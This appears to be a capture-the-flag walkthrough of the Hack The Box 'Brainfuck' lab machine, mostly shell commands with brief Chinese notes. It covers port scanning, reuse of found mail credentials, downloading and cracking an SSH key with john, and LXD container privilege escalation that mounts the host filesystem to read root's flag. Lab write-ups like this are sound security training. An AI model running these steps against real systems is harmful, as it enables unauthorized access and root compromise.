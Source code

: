 ```bash
└─# IP=10.10.10.17 
└─# nmap -sC -sV -O  $IP -oA nmap.txt -p `nmap -sS -sU -PN -p- $IP --min-rate=8888 | grep '/tcp\|/udp' | awk -F '/' '{print $1}' | sort -u | tr '\n' ','`
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94d0b334e9a537c5acb980df2a54a5f0 (RSA)
|   256 6bd5dc153a667af419915d7385b24cb2 (ECDSA)
|_  256 23f5a333339d76d5f2ea6971e34e8e02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: RESP-CODES UIDL USER TOP CAPA PIPELINING AUTH-RESP-CODE SASL(PLAIN)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS listed ID OK ENABLE post-login LITERAL+ more have capabilities IDLE IMAP4rev1 Pre-login AUTH=PLAINA0001 SASL-IR
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_http-server-header: nginx/1.10.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Welcome to nginx!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (92%), Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 5.1 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
└─# echo '10.10.10.17 brainfuck.htb www.brainfuck.htb sup3rs3cr3t.brainfuck.htb' >> /etc/hosts
```



kali无法请求Google的api，无法显示网站主页，端口转发出来也失败了

```
nc -lp 443 -c "nc 10.10.10.17 443"
```



```
查看页面源代码，修改密码的type类型为text成功显示密码。

orestis/kHGuERB29DNiNE
```

```
telnet 10.10.10.17 110
> USER orestis 
> PASS kHGuERB29DNiNE
> LIST
> RETR 1
> RETR 2
```



```bash
└─# curl https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa -k -o id_rsa
```



```
python /usr/share/john/ssh2john.py id_rsa   
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```



```
└─# john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
3poulakia!       (id_rsa)     
```



```
chmod 400 id_rsa
ssh -i id_rsa orestis@10.10.10.17
```



LXD/LXC容器提权

> LXD 是基于 LXC 容器技术实现的轻量级容器管理程序，而 LXC 是 Linux 系统自带的容器。提权原理与 Docker 提权非常相似，本质都是利用用户创建一个容器，在容器中挂载宿主机的磁盘后使用容器的权限操作宿主机磁盘修改敏感文件，比如`/etc/passwd`、`/root/.ssh/authorized_keys`、`/etc/sudoers`等，从而完成提权。

```bash
orestis@brainfuck:~$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
```

```http
https://www.exploit-db.com/exploits/46978
https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
https://www.hackingarticles.in/lxd-privilege-escalation/
```



kali操作

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```



靶机操作

```
wget http://10.10.16.3:8888/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```

```
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

```bash
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
6efc1a5dbb8904751ce6566a305bb8ef
```



[HTB-靶机-Brainfuck - 皇帽讲绿帽带法技巧 - 博客园 (cnblogs.com)](https://www.cnblogs.com/autopwn/p/13920542.html)

[HTB靶机渗透系列之Brainfuck - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/352833.html)


